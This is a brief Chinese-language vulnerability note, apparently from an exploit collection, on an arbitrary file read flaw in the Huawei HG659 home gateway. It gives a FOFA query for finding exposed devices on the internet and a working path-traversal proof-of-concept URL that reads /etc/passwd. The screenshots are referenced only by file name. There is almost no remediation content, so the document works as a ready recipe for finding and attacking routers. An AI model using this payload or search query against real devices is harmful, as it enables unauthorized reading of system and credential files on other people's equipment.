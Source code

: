 # Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

```
Huawei HG659
```

## FOFA

```
app="HUAWEI-Home-Gateway-HG659"
```

## 漏洞复现

登录页面如下

![](./images/202202110951141.png)

POC如下

```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```

![](./images/202202110951927.png)